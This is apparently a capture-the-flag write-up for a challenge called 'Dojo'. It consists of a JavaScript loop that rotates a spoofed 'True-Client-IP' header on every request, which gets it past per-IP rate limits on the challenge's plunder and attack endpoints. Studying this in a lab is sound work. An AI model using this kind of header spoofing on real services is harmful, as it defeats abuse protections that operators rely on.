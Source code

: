 # Dojo

Writeup:

```
let i = 0;
while (true) {
    try {
        const { total } = await (await fetch('/api/plunder', {
            headers: { 'True-Client-IP': `${i}.${i}.${i}.${i++}` }
        })).json();
        if (total > 800) break;
    } catch {}
}

let health = 2000;
while (health >= 0) {
    try {
        const { amount } = await (await fetch('/api/attack', {
            headers: { 'True-Client-IP': `${i}.${i}.${i}.${i++}` }
        })).json();
        health -= amount;
    } catch {}
}
```

![image-20240930230201904](https://api.2h0ng.wiki:443/noteimages/2024/09/30/23-02-29-0bda6973d414c1505feded438908383f.png)
